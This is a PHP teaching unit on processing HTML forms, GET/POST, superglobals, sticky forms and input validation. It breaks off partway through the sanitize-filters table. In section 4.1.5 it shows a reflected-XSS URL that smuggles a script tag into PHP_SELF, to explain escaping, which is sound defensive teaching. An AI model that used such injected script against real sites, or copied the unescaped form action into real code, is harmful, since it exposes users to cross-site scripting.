



# Unit 4: Form Handling and Data Validation
**Course:** Internet Technology II (CMP 273) · **Teaching hours:** 6

## Learning Objectives

After this unit, you will be able to:

- Process HTML forms with PHP to collect user input.
- Explain the HTTP request methods (GET and POST) and choose the right one for a form.
- Use the superglobals `$_GET`, `$_POST`, `$_REQUEST`, `$_SERVER` and `$_FILES` correctly.
- Build "sticky" forms that keep the user's input when there is an error.
- Validate and sanitize user input to prevent security problems such as XSS and to keep data correct.
- Handle checkboxes, radio buttons and select lists (including multiple selections).
- Upload files safely by checking the file type, size and other attributes.
- Send emails from PHP using `mail()` and, preferably, PHPMailer with SMTP.

---

## 4.1 Processing HTML forms with PHP

### 4.1.1 What is form processing?

An **HTML form** is the main way a user sends data to a web server: a login box, a registration page, a search bar, a feedback form. HTML only *displays* the form. When the user clicks **Submit**, the browser packs the field values into an HTTP request and sends it to a server-side script. **Form processing** means writing that script (in PHP) to:

1. Receive the submitted data.
2. Check (validate) and clean (sanitize) it.
3. Do something useful: save it to a database, send an email, show a result.
4. Send a response (an HTML page) back to the browser.



### 4.1.2 Important form attributes

| Attribute | Used on | Meaning |
|---|---|---|
| `action` | `<form>` | URL of the PHP script that will process the data. If empty or missing, the form submits to the same page. |
| `method` | `<form>` | HTTP method: `get` (default) or `post`. |
| `enctype` | `<form>` | How data is encoded. Needed as `multipart/form-data` for file uploads (see 4.6). |
| `name` | `<input>`, `<select>`, `<textarea>` | The **key** under which the value arrives in PHP. A field without `name` is **not sent at all**. |
| `value` | `<input>`, `<option>` | The value that is sent (or the pre-filled value). |
| `required`, `maxlength`, `type="email"` | `<input>` | Browser-side (HTML5) validation. Helpful for users, but **not** security. |

**Example 4.1: A simple form and its processing script**

`greet.html`

```html
<!DOCTYPE html>
<html>
<head><title>Greeting Form</title></head>
<body>
    <form action="greet.php" method="post">
        <label>Your name: <input type="text" name="fullname"></label><br>
        <label>Your city: <input type="text" name="city"></label><br>
        <button type="submit">Send</button>
    </form>
</body>
</html>
```

`greet.php`

```php
<?php
// Read the values using the "name" attributes as keys.
// The ?? operator gives a default if the key is missing.
$name = trim($_POST['fullname'] ?? '');
$city = trim($_POST['city'] ?? '');

// Always escape user data before printing it into HTML.
echo "<p>Namaste, " . htmlspecialchars($name) . "!</p>";
echo "<p>Greetings to everyone in " . htmlspecialchars($city) . ".</p>";
```

**Output** (after entering `Sita Sharma` and `Pokhara`):

```
Namaste, Sita Sharma!
Greetings to everyone in Pokhara.
```

> **Common Mistake:** Forgetting the `name` attribute. `<input type="text" id="city">` looks fine on screen, but nothing reaches PHP, and `$_POST['city']` gives an "Undefined array key" warning. **Correct:** `<input type="text" id="city" name="city">`. The `id` is for CSS/JavaScript/labels; the `name` is for the server.

### 4.1.3 Checking whether the form was submitted

A PHP page is requested in two situations: when the user first opens it (just show the form) and when the user submits the form (process the data). We need to tell these apart.

**Method 1: check the request method (recommended)**

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // The form was submitted with POST: process it
} else {
    // First visit (GET request): just show the form
}
```

**Method 2: check whether a particular field/button exists with `isset()`**

```php
<?php
if (isset($_POST['submit'])) {   // <button type="submit" name="submit">
    // process
}
```

Method 1 is more reliable: if the user presses **Enter** in a text box, some older browsers did not send the button's name, so `isset($_POST['submit'])` could fail.

### 4.1.4 `isset()` vs `empty()`

| Function | Returns `true` when ... | Typical use |
|---|---|---|
| `isset($x)` | the variable/key exists **and** is not `null` | "Was this field sent at all?" |
| `empty($x)` | the variable is missing, `null`, `""`, `"0"`, `0`, `0.0`, `false` or `[]` | "Did the user leave this field blank?" |

**Example 4.2: The difference between isset and empty**

```php
<?php
$data = ['name' => '', 'age' => '0', 'city' => 'Kathmandu'];

var_dump(isset($data['name']));   // key exists, value is ""
var_dump(empty($data['name']));   // "" counts as empty
var_dump(empty($data['age']));    // "0" also counts as empty!
var_dump(isset($data['phone']));  // key does not exist
var_dump(empty($data['city']));
```

**Output:**

```
bool(true)
bool(true)
bool(true)
bool(false)
bool(false)
```

> **Common Mistake:** Using `empty()` for a field where `0` is a valid answer, such as "Number of siblings" or "Marks". `empty("0")` is `true`, so a student who scored 0 is told "Marks is required". **Correct:** check for an empty string explicitly: `if (trim($_POST['marks'] ?? '') === '') { ... }`.

### 4.1.5 Self-processing (self-submitting) forms

A **self-processing form** is a single PHP file that both displays the form and processes it. The form's `action` points back to the same file. Advantages: one file to maintain, and it is easy to show error messages next to the fields and re-fill the values (sticky forms, 4.3).

To point the form at itself, we use `$_SERVER['PHP_SELF']` (the path of the current script), **always wrapped in `htmlspecialchars()`**.

**Example 4.3: Self-processing marks form**

`marks.php`

```php
<?php
$message = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $student = trim($_POST['student'] ?? '');
    $marks   = trim($_POST['marks'] ?? '');

    if ($student === '' || $marks === '') {
        $message = 'Please fill in both fields.';
    } else {
        $result  = ((int)$marks >= 40) ? 'Pass' : 'Fail';
        $message = htmlspecialchars($student) . " scored $marks: $result";
    }
}
?>
<!DOCTYPE html>
<html>
<body>
    <h3>Marks Entry</h3>
    <p><?= $message ?></p>
    <form action="<?= htmlspecialchars($_SERVER['PHP_SELF']) ?>" method="post">
        Student: <input type="text" name="student"><br>
        Marks:   <input type="number" name="marks"><br>
        <button type="submit">Check</button>
    </form>
</body>
</html>
```

**Output** (after entering `Hari` and `72`):

```
Marks Entry
Hari scored 72: Pass
[form shown again below]
```

(Here `(int)$marks` is a quick conversion; in 4.4 we will validate numbers properly with `filter_var`.)

#### Why `htmlspecialchars($_SERVER['PHP_SELF'])`?

`PHP_SELF` contains the path **from the URL**, which the user controls. An attacker can send a victim this link:

```
http://localhost/marks.php/"><script>alert('XSS')</script>
```

Apache still runs `marks.php`, but `PHP_SELF` now contains `/marks.php/"><script>alert('XSS')</script>`. Without escaping, the HTML becomes:

```html
<form action="/marks.php/"><script>alert('XSS')</script>" method="post">
```

The quote closes the `action` attribute and the attacker's script runs. With `htmlspecialchars()`, the `"`, `<` and `>` are converted to `&quot;`, `&lt;` and `&gt;`, so the text is harmless.

An equally safe alternative is `action=""` (an empty action submits to the current URL), or writing the file name directly: `action="marks.php"`.

> **Teacher's Note:** Demonstrate the `PHP_SELF` attack live in XAMPP. First use `action="<?= $_SERVER['PHP_SELF'] ?>"`, paste the malicious URL, and let students see the alert box. Then add `htmlspecialchars()` and repeat. Seeing the attack work makes the rule stick far better than just stating it. (About 10 minutes.)

> **Exam Tip:** "What is a self-processing form? Why do we use `htmlspecialchars()` with `$_SERVER['PHP_SELF']`?" is a frequent 5-mark question. Write: definition, the advantage, a short code sample, and the XSS explanation with the malicious URL example.

---

## 4.2 Working with HTTP Request (GET, POST, SERVER)

### 4.2.1 HTTP request methods

HTTP (HyperText Transfer Protocol) defines several **request methods** (verbs). For HTML forms only two are used: **GET** and **POST**. (PUT, PATCH and DELETE are used by REST APIs, not by plain HTML forms.)

- **GET** asks the server to *get* (read) a resource. Form data is added to the URL as a **query string**.
- **POST** *sends* data to the server to be processed or stored. Form data travels in the **request body**, not in the URL.

What the two requests look like on the wire:

```
GET /search.php?keyword=laptop&page=2 HTTP/1.1
Host: localhost

POST /login.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

username=ram&password=secret123
```

### 4.2.2 GET vs POST

| Basis | GET | POST |
|---|---|---|
| Where data goes | Appended to the URL (query string) | In the HTTP request body |
| Visibility | Visible in address bar, browser history, server logs | Not visible in the URL |
| Size limit | Limited by URL length (practically about 2,000 characters) | No practical limit (controlled by `post_max_size` in php.ini) |
| Bookmark / share | Yes, the URL contains the data | No |
| Caching | Can be cached by browsers | Not cached |
| Back / Refresh | Harmless, simply re-requests | Browser warns "Confirm form resubmission" |
| File upload | Not possible | Possible (with `multipart/form-data`) |
| Data type | ASCII text only (URL-encoded) | Text and binary |
| Idempotent? | Yes: repeating it should not change anything | No: repeating may create duplicates |
| PHP superglobal | `$_GET` | `$_POST` |
| Use for | Search, filters, pagination, viewing a record (`?id=5`) | Login, registration, payment, upload, anything that changes data |

> **Important:** POST is *not encrypted*. It only hides data from the URL. Anyone watching the network can read POST data unless the site uses **HTTPS**. Passwords must be sent with POST **and** over HTTPS.

> **Exam Tip:** "Differentiate between GET and POST methods" appears almost every year. Give at least 6 points in a table, then one short example of each (a search form with GET and a login form with POST).

### 4.2.3 `$_GET` and query strings

A **query string** is the part of a URL after `?`. It holds `name=value` pairs separated by `&`:

```
http://localhost/products.php?category=books&sort=price&page=2
                              \_____________________________/
                                       query string
```

PHP automatically decodes it into the `$_GET` array. Query strings can come from a GET form **or** from an ordinary link.

**Example 4.4: Reading a query string from a link**

`students.php`

```php
<?php
// Links like: students.php?id=3  or  students.php?id=abc
$students = [1 => 'Aarati Gurung', 2 => 'Bikash Thapa', 3 => 'Kritika Rai'];

// filter_input reads $_GET['id'] and checks it is an integer (see 4.4)
$id = filter_input(INPUT_GET, 'id', FILTER_VALIDATE_INT);

if ($id === null) {
    echo "No student selected.";
} elseif ($id === false || !isset($students[$id])) {
    echo "Invalid student ID.";
} else {
    echo "Student #$id: " . htmlspecialchars($students[$id]);
}
?>
<p>
  <a href="students.php?id=1">Aarati</a> |
  <a href="students.php?id=2">Bikash</a> |
  <a href="students.php?id=3">Kritika</a>
</p>
```

**Output:**

```
students.php           ->  No student selected.
students.php?id=3      ->  Student #3: Kritika Rai
students.php?id=abc    ->  Invalid student ID.
```

#### Building query strings safely

Special characters (space, `&`, `=`, `?`, Nepali text) must be **URL-encoded**. Use `urlencode()` for one value or `http_build_query()` for an array.

**Example 4.5: Building a URL with parameters**

```php
<?php
$city = "Biratnagar & Dharan";
echo "search.php?city=" . urlencode($city) . "\n";

$params = ['keyword' => 'php books', 'page' => 2];
echo "search.php?" . http_build_query($params) . "\n";
```

**Output:**

```
search.php?city=Biratnagar+%26+Dharan
search.php?keyword=php+books&page=2
```

### 4.2.4 `$_POST`

`$_POST` is an associative array holding the fields of a form sent with `method="post"` (with the default encoding `application/x-www-form-urlencoded` or `multipart/form-data`).

**Example 4.6: A simple login check (POST)**

```php
<?php
// Demo only: a real application looks the user up in a database
// and checks the password with password_verify() (Unit on MySQL).
$storedUser = 'admin';
$storedHash = password_hash('Nepal@123', PASSWORD_DEFAULT);

$msg = '';
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = trim($_POST['username'] ?? '');
    $pass = $_POST['password'] ?? '';      // never trim passwords

    if ($user === $storedUser && password_verify($pass, $storedHash)) {
        $msg = "Welcome, " . htmlspecialchars($user) . "!";
    } else {
        $msg = "Invalid username or password.";
    }
}
?>
<p><?= $msg ?></p>
<form method="post" action="">
    Username: <input type="text" name="username"><br>
    Password: <input type="password" name="password"><br>
    <button type="submit">Login</button>
</form>
```

**Output** (with `admin` / `Nepal@123`): `Welcome, admin!`
**Output** (with a wrong password): `Invalid username or password.`

### 4.2.5 `$_REQUEST` and why to avoid it

`$_REQUEST` contains the contents of `$_GET`, `$_POST` and `$_COOKIE` together (the exact set and order depend on `request_order` / `variables_order` in php.ini).

```php
<?php
$name = $_REQUEST['name'] ?? '';  // works for GET, POST or a cookie
```

Why you should avoid it:

- **Ambiguity:** you do not know where the value came from. If the same key exists in the URL and in the form, one silently overwrites the other.
- **Security:** an action meant to be POST-only (delete a record, transfer money) can be triggered by a simple GET link such as `delete.php?id=5`, which makes CSRF attacks easier.
- **Cookies mixed in:** a cookie with the same name can override form data.
- **Readability:** `$_POST['email']` tells the reader exactly how the data arrives.

Rule: use `$_GET` for GET data and `$_POST` for POST data, always.

### 4.2.6 `$_SERVER`

`$_SERVER` is an array created by the web server containing information about the **request**, the **server** and the **script**.

| Key | Meaning | Example value |
|---|---|---|
| `REQUEST_METHOD` | HTTP method used | `POST` |
| `PHP_SELF` | Path of the current script (from the URL, escape it!) | `/unit4/marks.php` |
| `SCRIPT_NAME` | Path of the current script (set by server) | `/unit4/marks.php` |
| `REQUEST_URI` | Full path + query string requested | `/unit4/students.php?id=3` |
| `QUERY_STRING` | Only the query string | `id=3` |
| `SERVER_NAME` | Host name of the server | `localhost` |
| `HTTP_HOST` | Host header sent by the browser | `localhost:8080` |
| `SERVER_PORT` | Port number | `80` |
| `SERVER_PROTOCOL` | Protocol version | `HTTP/1.1` |
| `DOCUMENT_ROOT` | Web root folder | `C:/xampp/htdocs` |
| `REMOTE_ADDR` | IP address of the visitor | `127.0.0.1` |
| `HTTP_USER_AGENT` | Browser identification string | `Mozilla/5.0 (Windows NT 10.0; ...)` |
| `HTTP_REFERER` | Page that linked to this one (may be missing) | `http://localhost/unit4/index.php` |
| `HTTPS` | Set to a non-empty value when using HTTPS | `on` |
| `REQUEST_TIME` | Unix timestamp of the request | `1763800000` |

**Example 4.7: Printing request information**

```php
<?php
// server_info.php, opened as http://localhost/unit4/server_info.php?lang=np
echo "Method: "     . $_SERVER['REQUEST_METHOD'] . "<br>";
echo "Script: "     . htmlspecialchars($_SERVER['SCRIPT_NAME']) . "<br>";
echo "Query: "      . htmlspecialchars($_SERVER['QUERY_STRING']) . "<br>";
echo "Server: "     . $_SERVER['SERVER_NAME'] . "<br>";
echo "Your IP: "    . $_SERVER['REMOTE_ADDR'] . "<br>";
echo "Referrer: "   . htmlspecialchars($_SERVER['HTTP_REFERER'] ?? 'none') . "<br>";
```

**Output:**

```
Method: GET
Script: /unit4/server_info.php
Query: lang=np
Server: localhost
Your IP: 127.0.0.1
Referrer: none
```

> **Common Mistake:** Treating `HTTP_USER_AGENT`, `HTTP_REFERER` or `PHP_SELF` as trustworthy. Every `HTTP_*` key comes from request headers that the client can fake. Escape them before output and never use them for security decisions.

### 4.2.7 The Post/Redirect/Get (PRG) pattern

**Problem:** after a successful POST (for example "Place order"), if the user presses **F5/Refresh**, the browser asks to resubmit the form. Clicking "Continue" sends the POST again and may create a **duplicate order** or duplicate database row.

**Solution, Post/Redirect/Get:**

1. The browser **POST**s the form.
2. The server processes the data and replies with a **redirect** (HTTP 303 or 302) using `header('Location: ...')`.
3. The browser follows the redirect with a fresh **GET** request and shows the result page.

Now refreshing only repeats the harmless GET.



**Example 4.8: PRG in practice**

```php
<?php
// order.php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $item = trim($_POST['item'] ?? '');
    if ($item !== '') {
        // ... save the order to the database here ...
        header('Location: order.php?status=success', true, 303);
        exit;   // stop the script after redirecting
    }
}
$status = $_GET['status'] ?? '';
?>
<?php if ($status === 'success'): ?>
    <p>Your order has been placed. Refreshing this page will not order again.</p>
<?php endif; ?>
<form method="post" action="order.php">
    Item: <input type="text" name="item">
    <button type="submit">Order</button>
</form>
```

**Output** (after ordering, and also after pressing F5):

```
Your order has been placed. Refreshing this page will not order again.
```

> **Common Mistake:** (1) Printing any HTML or even a blank line before `header()`, which causes "Cannot modify header information - headers already sent". Call `header()` before any output. (2) Forgetting `exit;` after `header('Location: ...')`; the rest of the script still runs.

> **Teacher's Note:** Show the problem first: a form that inserts into a counter file or database without PRG, then refresh three times and show three entries. Then add the redirect. Students remember "refresh = duplicate" very easily.

---

## 4.3 Preserving User Input

### 4.3.1 What is a sticky form?

A **sticky form** remembers the values the user typed after submission. If the user makes a mistake in one field, the form is shown again with the error message, and **all the other fields are still filled in**. Without this, the user must retype everything, which is frustrating and makes people leave the site.

The idea: when printing each field, put the submitted value back into it (escaped with `htmlspecialchars()`).

| Field type | How to make it sticky |
|---|---|
| Text, email, number, password* | `value="<?= htmlspecialchars($name) ?>"` |
| `<textarea>` | Put the value **between** the tags: `<textarea><?= htmlspecialchars($msg) ?></textarea>` |
| `<select>` / `<option>` | Add `selected` to the option whose value matches |
| Radio button | Add `checked` to the matching radio |
| Checkbox | Add `checked` if its value is in the submitted array |

\* Do **not** re-fill password fields. It is normal practice to make the user retype the password.

### 4.3.2 Sticky text fields and textarea

**Example 4.9: Sticky feedback form**

```php
<?php
$name = $_POST['name'] ?? '';
$comment = $_POST['comment'] ?? '';
$error = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST' && trim($comment) === '') {
    $error = 'Comment cannot be empty.';
}
?>
<p style="color:red"><?= $error ?></p>
<form method="post" action="">
    Name: <input type="text" name="name" value="<?= htmlspecialchars($name) ?>"><br>
    Comment:<br>
    <textarea name="comment" rows="4" cols="40"><?= htmlspecialchars($comment) ?></textarea><br>
    <button type="submit">Send</button>
</form>
```

**Output** (user types `Ramesh` but leaves the comment empty):

```
Comment cannot be empty.
Name: [Ramesh        ]     <- the name is still there
Comment: [               ]
```

> **Common Mistake:** Writing `<textarea value="...">`. A textarea has **no** `value` attribute; the content goes between the opening and closing tags. Also, any space or newline you put between `<textarea>` and `<?=` becomes part of the content, so keep them on one line.

### 4.3.3 Sticky select, radio and checkbox

For these, compare each option's value with the submitted value and print `selected` or `checked`.

**Example 4.10: Sticky select, radio and checkbox**

```php
<?php
$faculty  = $_POST['faculty'] ?? '';
$gender   = $_POST['gender'] ?? '';
$agree    = isset($_POST['agree']);
$faculties = ['BCSIT', 'BBA', 'BCA', 'BE Computer'];
?>
<form method="post" action="">
    Faculty:
    <select name="faculty">
        <option value="">-- Select --</option>
        <?php foreach ($faculties as $f): ?>
            <option value="<?= $f ?>" <?= $faculty === $f ? 'selected' : '' ?>><?= $f ?></option>
        <?php endforeach; ?>
    </select><br>

    Gender:
    <label><input type="radio" name="gender" value="male"   <?= $gender === 'male'   ? 'checked' : '' ?>> Male</label>
    <label><input type="radio" name="gender" value="female" <?= $gender === 'female' ? 'checked' : '' ?>> Female</label>
    <label><input type="radio" name="gender" value="other"  <?= $gender === 'other'  ? 'checked' : '' ?>> Other</label><br>

    <label><input type="checkbox" name="agree" value="yes" <?= $agree ? 'checked' : '' ?>> I agree to the rules</label><br>
    <button type="submit">Submit</button>
</form>
```

**Output** (after submitting BBA, Female, agree ticked): the page reloads with **BBA** still selected, **Female** still chosen and the checkbox still ticked. In the page source the chosen elements look like:

```html
<option value="BBA" selected>BBA</option>
<input type="radio" name="gender" value="female" checked>
<input type="checkbox" name="agree" value="yes" checked>
```

(The `$faculties` values are our own fixed strings, so printing them without escaping is safe here. Anything coming from the user must be escaped.)

> **Teacher's Note:** A useful exercise is to make students write a small helper such as `function selected($a, $b) { return $a === $b ? 'selected' : ''; }` and reuse it. It shows how functions reduce repetition in templates.

---

## 4.4 Validating and Sanitizing User's Input

### 4.4.1 Why validate? The golden rule

> **Never trust user input.** Everything in `$_GET`, `$_POST`, `$_COOKIE`, `$_FILES` and the `HTTP_*` parts of `$_SERVER` can be changed by the user.

HTML5 attributes like `required`, `type="email"` and `maxlength`, and JavaScript checks, run in the **browser**. A user can turn off JavaScript, edit the HTML with Developer Tools, or send a request directly with tools like `curl` or Postman. So **server-side validation in PHP is mandatory**. Client-side validation is only a convenience for the user.

Input checking protects against:

- **Security attacks:** Cross-Site Scripting (XSS), SQL injection, email header injection, malicious file uploads.
- **Bad data:** empty names, `abc` in the age field, invalid emails, negative prices, which break reports and logic.

### 4.4.2 Validation vs sanitization

| Basis | Validation | Sanitization |
|---|---|---|
| Meaning | **Checking** whether data meets the rules | **Cleaning** data by removing or encoding unwanted characters |
| Result | Yes/No (accept or reject) | A modified, safer version of the data |
| Changes data? | No | Yes |
| On failure | Show an error and ask the user to correct it | Silently fixes the data |
| Example | Is `"ram@@mail"` a valid email? → No | `"ram <x>@mail.com"` → `"ramx@mail.com"` |
| PHP tools | `filter_var(..., FILTER_VALIDATE_*)`, `preg_match()`, `is_numeric()`, `mb_strlen()`, `in_array()` | `trim()`, `filter_var(..., FILTER_SANITIZE_*)`, `htmlspecialchars()`, `strip_tags()` |

In practice we use both, in this order:

1. **Sanitize lightly** on input (for example `trim()` to remove spaces).
2. **Validate** against the rules. Reject invalid data with a clear message.
3. **Escape for the destination** on output: `htmlspecialchars()` for HTML, prepared statements for SQL.

> **Exam Tip:** "Differentiate between validation and sanitization with examples" is a common 5-mark question. Give the table plus one PHP line for each, for example `filter_var($email, FILTER_VALIDATE_EMAIL)` and `filter_var($email, FILTER_SANITIZE_EMAIL)`.

### 4.4.3 Common validation checks

| Check | How in PHP |
|---|---|
| Required (not empty) | `trim($v) === ''` |
| Length | `mb_strlen($v) < 3 \|\| mb_strlen($v) > 50` |
| Pattern (letters only, phone, etc.) | `preg_match('/^[A-Za-z ]+$/', $v)` |
| Email | `filter_var($v, FILTER_VALIDATE_EMAIL)` |
| Integer / range | `filter_var($v, FILTER_VALIDATE_INT, ['options' => ['min_range' => 1, 'max_range' => 100]])` |
| Decimal number | `filter_var($v, FILTER_VALIDATE_FLOAT)` |
| URL | `filter_var($v, FILTER_VALIDATE_URL)` |
| Allowed value from a list | `in_array($v, $allowed, true)` |
| Match (confirm password) | `$pass === $confirm` |
| Date | `DateTime::createFromFormat('Y-m-d', $v)` and check the result |

(`mb_strlen()` counts characters correctly for Unicode text such as Devanagari; `strlen()` counts bytes.)

**Example 4.11: Required, length and pattern checks**

```php
<?php
function validateName(string $name): string
{
    $name = trim($name);
    if ($name === '') {
        return 'Name is required.';
    }
    if (mb_strlen($name) < 3 || mb_strlen($name) > 50) {
        return 'Name must be 3 to 50 characters.';
    }
    if (!preg_match('/^[A-Za-z ]+$/', $name)) {
        return 'Name may contain only letters and spaces.';
    }
    return 'OK';
}

foreach (['', 'Al', 'Rita123', 'Rita Magar'] as $test) {
    echo "'$test' => " . validateName($test) . "\n";
}
```

**Output:**

```
'' => Name is required.
'Al' => Name must be 3 to 50 characters.
'Rita123' => Name may contain only letters and spaces.
'Rita Magar' => OK
```

### 4.4.4 Regular expressions with `preg_match()`

`preg_match($pattern, $subject)` returns `1` if the pattern matches, `0` if not (and `false` on a pattern error). Useful patterns:

| Purpose | Pattern | Explanation |
|---|---|---|
| Letters and spaces | `/^[A-Za-z ]+$/` | Start `^`, one or more letters/spaces, end `$` |
| Nepali mobile number | `/^9[678]\d{8}$/` | Starts with 96/97/98, then 8 more digits (10 digits total) |
| Username | `/^[a-z0-9_]{4,20}$/` | 4-20 lowercase letters, digits or underscore |
| Strong password | `/^(?=.*[A-Za-z])(?=.*\d).{8,}$/` | At least 8 characters with at least one letter and one digit |
| Postal code (Nepal) | `/^\d{5}$/` | Exactly 5 digits, e.g. 33700 |

**Example 4.12: Validating Nepali mobile numbers**

```php
<?php
$numbers = ['9841234567', '9812345678', '984123456', '0141234567', '98412a4567'];

foreach ($numbers as $n) {
    $ok = preg_match('/^9[678]\d{8}$/', $n) ? 'valid' : 'invalid';
    echo "$n : $ok\n";
}
```

**Output:**

```
9841234567 : valid
9812345678 : valid
984123456 : invalid
0141234567 : invalid
98412a4567 : invalid
```

> **Common Mistake:** Forgetting the anchors `^` and `$`. `/9[678]\d{8}/` also matches `abc9841234567xyz` because it only looks for the pattern *somewhere* in the string. Always anchor validation patterns.

### 4.4.5 The filter extension: `filter_var()` and `filter_input()`

PHP's built-in **filter extension** provides ready-made, well-tested validators and sanitizers. It is better than writing your own regex for emails and URLs.

- `filter_var($value, $filter, $options)` filters **any variable**.
- `filter_input($type, $name, $filter, $options)` reads **directly** from the request, where `$type` is `INPUT_GET`, `INPUT_POST`, `INPUT_COOKIE`, `INPUT_SERVER` or `INPUT_ENV`.

Return values to remember:

| Function | Value valid | Value invalid | Key missing |
|---|---|---|---|
| `filter_var()` with a VALIDATE filter | the (converted) value | `false` | (n/a) |
| `filter_input()` with a VALIDATE filter | the (converted) value | `false` | `null` |

#### Validate filters

| Filter | Checks | Useful options / flags |
|---|---|---|
| `FILTER_VALIDATE_INT` | Integer; returns `int` | `min_range`, `max_range` |
| `FILTER_VALIDATE_FLOAT` | Decimal number; returns `float` | `decimal`, `min_range`, `max_range` (PHP 7.4+) |
| `FILTER_VALIDATE_EMAIL` | Email address format | `FILTER_FLAG_EMAIL_UNICODE` |
| `FILTER_VALIDATE_URL` | URL with a scheme (`http://...`) | `FILTER_FLAG_PATH_REQUIRED`, `FILTER_FLAG_QUERY_REQUIRED` |
| `FILTER_VALIDATE_BOOLEAN` (`FILTER_VALIDATE_BOOL`) | `"1","true","on","yes"` → `true`; `"0","false","off","no",""` → `false` | `FILTER_NULL_ON_FAILURE` |
| `FILTER_VALIDATE_IP` | IPv4/IPv6 address | `FILTER_FLAG_IPV4`, `FILTER_FLAG_IPV6` |
| `FILTER_VALIDATE_REGEXP` | Matches a regex | `regexp` option |

**Example 4.13: Validate filters in action**

```php
<?php
var_dump(filter_var("25", FILTER_VALIDATE_INT));
var_dump(filter_var("25abc", FILTER_VALIDATE_INT));
var_dump(filter_var("0", FILTER_VALIDATE_INT));
var_dump(filter_var("150", FILTER_VALIDATE_INT,
         ['options' => ['min_range' => 0, 'max_range' => 100]]));
var_dump(filter_var("3.14", FILTER_VALIDATE_FLOAT));
var_dump(filter_var("ram@example.com", FILTER_VALIDATE_EMAIL));
var_dump(filter_var("ram@@example", FILTER_VALIDATE_EMAIL));
var_dump(filter_var("https://pu.edu.np", FILTER_VALIDATE_URL));
var_dump(filter_var("pu.edu.np", FILTER_VALIDATE_URL));
var_dump(filter_var("yes", FILTER_VALIDATE_BOOLEAN));
var_dump(filter_var("192.168.1.300", FILTER_VALIDATE_IP));
```

**Output:**

```
int(25)
bool(false)
int(0)
bool(false)
float(3.14)
string(15) "ram@example.com"
bool(false)
string(17) "https://pu.edu.np"
bool(false)
bool(true)
bool(false)
```

> **Common Mistake:** Writing `if (!filter_var($age, FILTER_VALIDATE_INT))`. When the age is `"0"`, the filter correctly returns `int(0)`, but `!0` is `true`, so a valid value is rejected. **Always compare strictly:** `if (filter_var($age, FILTER_VALIDATE_INT) === false)`.

#### Sanitize filters

| Filter | What it does |
|---|---|
| `FILTER_SANITIZE_EMAIL` | Removes all characters not allowed in an email address |
| `FILTER_SANITIZE_URL` | Removes all characters not allowed in a URL |
| `FILTER_SANITIZE_NUMBER_INT` | Keeps only digits, `+` and `-` |
| `FILTER_SANITIZE_NUMBER_FLOAT` | Keeps digits, `+`, `-` (and `.` with `FILTER_FLAG_ALLOW_FRACTION`) |
| `FILTER_SANITIZE_SPECIAL_CHARS` | HTML-encodes `' " < > &` as numeric entities |
| `FILTER_SANITIZE_FULL_SPECIAL_CHARS` | Same as `htmlspecialchars($v, ENT_QUOTES)` |
